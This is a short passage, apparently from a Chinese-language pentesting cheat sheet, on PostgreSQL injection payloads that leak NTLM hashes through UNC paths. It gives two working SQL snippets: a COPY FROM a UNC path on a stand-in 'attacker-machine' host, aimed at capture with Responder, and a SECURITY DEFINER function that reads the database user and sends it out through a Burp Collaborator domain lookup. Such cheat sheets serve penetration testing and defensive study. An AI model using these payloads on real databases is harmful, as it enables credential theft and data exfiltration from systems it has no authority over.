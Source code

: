 请注意，在能够使用 dblink_connect 或 dblink_connect_u 之前，您可能需要执行：

CREATE extension dblink;



**UNC路径 - NTLM哈希泄露**

```postgresql
-- can be used to leak hashes to Responder/equivalent
CREATE TABLE test();
COPY test FROM E'\\\\attacker-machine\\footestbar.txt';
```

```postgresql
-- to extract the value of user and send it to Burp Collaborator
CREATE TABLE test(retval text);
CREATE OR REPLACE FUNCTION testfunc() RETURNS VOID AS $$
DECLARE sqlstring TEXT;
DECLARE userval TEXT;
BEGIN
SELECT INTO userval (SELECT user);
sqlstring := E'COPY test(retval) FROM E\'\\\\\\\\'||userval||E'.xxxx.burpcollaborator.net\\\\test.txt\'';
EXECUTE sqlstring;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT testfunc();

```

